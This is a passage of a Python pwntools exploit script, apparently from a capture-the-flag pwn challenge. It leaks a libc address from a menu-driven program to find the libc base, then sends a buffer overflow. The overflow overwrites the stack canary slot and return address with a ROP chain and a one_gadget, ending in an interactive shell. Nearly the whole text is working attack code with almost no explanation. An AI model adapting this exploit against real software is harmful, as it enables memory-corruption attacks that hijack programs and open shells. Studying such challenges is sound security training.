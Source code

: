 ``` python
payload = b''
payload += b'A' * 0x18 # buf canary rbp
p.sendafter(b'Write content : ',  payload) 

p.sendlineafter(b'> ', b'2') # manu
p.recvuntil(b'Content: ')
libc_start_main_xx = p.recvline().strip(b'\n')
# print(libc_start_main_xx)
libc_start_main_xx = libc_start_main_xx[0x118:]
log.info(f'len = {len(libc_start_main_xx)}')
libc_start_main_xx = u64(libc_start_main_xx + b'\x00'*2)
log.info(f'libc_start_main_xx = {hex(libc_start_main_xx)}')
libc_base = libc_start_main_xx - libc.libc_start_main_return
log.info(f'libc_base = {hex(libc_base)}')

# one_gadget
# p.sendlineafter(b'> ', b'3') # manu
# p.sendlineafter(b'Page number: ', b'2')
# p.sendlineafter(b'Edit size: ', b'0')
# payload = b''
# payload = b'A' * 0x17 + b'\x00' + b'A' *0x28
# p.sendafter(b'Write content : ',  payload) 
og = [0xef52b, 0xef4ce, 0x583ec, 0x583f3]
one_gadget = og[2] + libc_base
ret = 0x2882f + libc_base
xor_rax = 0xc75e9 + libc_base
pop_rbx = 0x586e4 + libc_base
rbx_r12_rbp = 0x2a771 + libc_base
payload = b''
payload += b'A' * 0x8 + p64(canary) + b'B' * 0x8 + p64(ret) + p64(xor_rax) + p64(pop_rbx) + p64(0) + p64(one_gadget)
p.sendlineafter(b'> ', b'3') # manu
p.sendlineafter(b'Page number: ', b'4')
p.sendlineafter(b'Edit size: ', b'0') 
p.sendafter(b'Write content : ',  payload) 

# break loof
p.sendlineafter(b'> ', b'4') # manu

# interactive
p.interactive() 
```
